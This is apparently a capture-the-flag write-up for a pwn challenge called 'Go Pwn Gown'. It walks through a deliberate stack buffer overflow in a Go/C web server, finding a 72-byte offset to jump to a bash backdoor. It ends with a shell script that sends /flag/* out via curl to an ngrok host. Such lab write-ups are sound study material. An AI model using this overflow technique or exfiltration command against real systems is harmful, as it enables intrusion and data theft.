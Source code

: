 # Go Pwn Gown (day7)

<p align="justify">This challenge was a Pwn challenge in which the goal was to perform a buffer overflow on a website to read the flag stored on the server. Source code was provided with a docker file so that the server could have been ran locally, which revealed very helpful insofar as I had access to server logs. </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> Looking at source code, it seemed that a backdoor was already included in the code of the running server. This backdoor shown in the snippet below could have been used to run command remotely : </p>

````c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}

void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
````

<p align="justify">  The flaw here was caused by the use of a buffer of size 64 in which 128 bytes were copied. The parameter gown was read from the website and then handled thanks to the function below, calling the unsafeFunction() containing the weakness : </p>

````c
func handleRequest(w http.ResponseWriter, r *http.Request) {
	log.Println("Calling handleRequest")
	defer func() {
		log.Println(r.URL.Path)
		gown := r.URL.Query().Get("gown")
		if gown == "" {
			http.Error(w, "Gown parameter is missing", http.StatusBadRequest)
			return
		}

		cGown := C.CString(gown)
		if i := strings.IndexByte(gown, '\x00'); i != -1 {
			gown = gown[:i]
		}
		os.Setenv("GOWN", string(gown))
		fmt.Println("Getenv(GOWN) = ", os.Getenv("GOWN"))
		defer C.free(unsafe.Pointer(cGown))

		C.unsafeFunction(cGown)
		// C.laluBackdoor()
		w.Write([]byte("Request handled\n"))
	}()
}
````

<p align="justify">To exploit it, I started by running the docker on my machine to adjust my payload using the logs. I developped a tiny C script avalible under exploit.c in this repo, to guess the number of chars I had to sent before overwritte ret address on the stack. The method I followed is described below : </p>

- I started by extracting the server binary running in the docker
- Then I extrated the address of the lalubackdoor using gdb
- I used this address in little endian format crafting the payload like this : payload = 64* 'A' + [little endian backdoor address]. I started with 64 bytes because it was the size of the buffer
- Then I sent the payload to the server and added one char at each loop, checking the logs in the meantine to identify the exact number of bytes required to perform a bof

<p align="justify">It came that I had to sent 72 chars before being able to overwritte the ret address and access lalubackdoor, as shown in the snippet below with the error on the execution of /bin/bash meaning that I well overwrote the ret address : </p>

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>



<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S5.png" alt="Desc"></p>

````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !

